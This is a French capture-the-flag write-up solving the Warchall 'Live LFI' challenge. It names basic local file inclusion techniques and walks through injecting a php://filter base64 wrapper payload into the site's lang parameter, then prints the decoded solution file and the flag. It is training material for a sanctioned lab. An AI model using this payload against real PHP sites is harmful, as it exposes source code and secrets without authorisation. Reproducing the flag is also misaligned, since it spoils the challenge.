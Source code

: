 # Live LFI
Cette fois Live LFI Local File Inclusion, il y a des méthodes d'attaque de base NULL Byte Injection et path,
mais parmi les attaques appliquées, il y a une méthode d'attaque utilisant PHP Wrapper. Dans le cas de Warchall : Live LFI,
vous pouvez utiliser PHP Wrapper pour accéder au fichier en utilisant php://filter/convert.base64-encode/resource=solution.php

Le code "php://filter/convert.base64-encode/resource=solution.php" est une fonctionnalité de PHP qui permet de lire le contenu d'un fichier et de le convertir en base64.
Cela signifie que le contenu du fichier **solution.php** sera encodé en base64 avant d'être retourné.

En d'autres termes, si ce code est utilisé dans un contexte où une URL ou un chemin de fichier est attendu,
il peut être utilisé pour lire le contenu du fichier "solution.php" et le retourner sous forme encodée en base64.
Cela peut être utilisé pour contourner certaines restrictions d'accès aux fichiers ou pour manipuler le contenu des fichiers de manière non autorisée.

Etape à suivre : 
1. Allez dans le lien LFI (Local File Inclusion) principale => [LFI](https://lfi.warchall.net/)

2. Cliquer sur le logo de langue (choix de langue) => exemple : [LFI (langue)](https://lfi.warchall.net/index.php?lang=en)
3. Effacer *en* et *remplacer* par la methode d'attaque PHP Wrapper => (https://lfi.warchall.net/index.php?lang=php://filter/convert.base64-encode/resource=solution.php)
4. après, il donne des plusieur code à decoder : **PGh0bWw+Cjxib2R5Pgo8cHJlIHN0eWxlPSJjb2xvcjojMDAwOyI+dGVoIGZhbGcgc2kgbmFlciE8L3ByZT4KPHByZSBzdHlsZT0iY29sb3I6I2ZmZjsiPnRoZSBmbGFnIGlzIG5lYXIhPC9wcmU+CjwvYm9keT4KPC9odG1sPgo8P3BocCAgICAgICAgICAgICAgICAgICMgICBZT1VSX1RST1BIWSAKcmV0dXJuICdTdGVwcGluU3RvbmVzNDJQaWUnOyAjIDwtwrQgPz4K**
5. Après decodage enligne sur [base64decode](https://www.base64decode.org/) 
__Le resultat est là__ : 
````sh<html>
<body>
<pre style="color:#000;">teh falg si naer!</pre>
<pre style="color:#fff;">the flag is near!</pre>
</body>
</html>
<?php                  #   YOUR_TROPHY 
return 'SteppinStones42Pie'; # <-´ ?>
````
 Solution : **SteppinStones42Pie**


